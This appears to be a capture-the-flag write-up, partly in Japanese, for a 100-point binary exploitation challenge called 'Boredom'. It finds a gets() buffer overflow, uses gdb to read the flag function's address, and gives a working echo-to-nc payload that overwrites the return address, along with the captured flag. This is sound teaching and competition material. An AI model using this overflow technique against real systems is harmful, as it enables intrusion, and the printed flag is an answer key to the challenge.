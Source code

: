 # Boredom:Binary Exploitation:100pts
Keith is bored and stuck at home. Give him some things to do.  
Connect at nc pwn.hsctf.com 5002.  
Note, if you're having trouble getting it to work remotely:  
- check your offset, the offset is slightly different on the remote server  
- the addresses are still the same  
[boredom.c](boredom.c)  [boredom](boredom)  

# Solution
boredom.cを読むとmain内の`gets(toDo);`でBOFできそうだ(本来ならばchecksecする)。  
flag関数を実行することができればよいのでアドレスを調べる。  
```bash
$ gdb boredom
~~~
(gdb) disas flag
Dump of assembler code for function flag:
   0x00000000004011d5 <+0>:     push   %rbp
   0x00000000004011d6 <+1>:     mov    %rsp,%rbp
   0x00000000004011d9 <+4>:     sub    $0x40,%rsp
   0x00000000004011dd <+8>:     lea    0xe60(%rip),%rsi        # 0x402044
   0x00000000004011e4 <+15>:    lea    0xe5b(%rip),%rdi        # 0x402046
   0x00000000004011eb <+22>:    callq  0x401080 <fopen@plt>
   0x00000000004011f0 <+27>:    mov    %rax,-0x8(%rbp)
   0x00000000004011f4 <+31>:    cmpq   $0x0,-0x8(%rbp)
   0x00000000004011f9 <+36>:    jne    0x40121d <flag+72>
   0x00000000004011fb <+38>:    lea    0xe4e(%rip),%rdi        # 0x402050
   0x0000000000401202 <+45>:    callq  0x401030 <puts@plt>
   0x0000000000401207 <+50>:    lea    0xe92(%rip),%rdi        # 0x4020a0
   0x000000000040120e <+57>:    callq  0x401030 <puts@plt>
   0x0000000000401213 <+62>:    mov    $0x1,%edi
   0x0000000000401218 <+67>:    callq  0x401090 <exit@plt>
   0x000000000040121d <+72>:    mov    -0x8(%rbp),%rdx
~~~
```
0x00000000004011d5とわかった。  
gdbを駆使しながらセグフォ周辺を探っていく。  
結果として、以下のようにechoをncに流し込むことでflag関数に飛ばすことができる。  
```bash
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd5\x11\x40\x00\x00\x00\x00\x00" | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
```

## flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}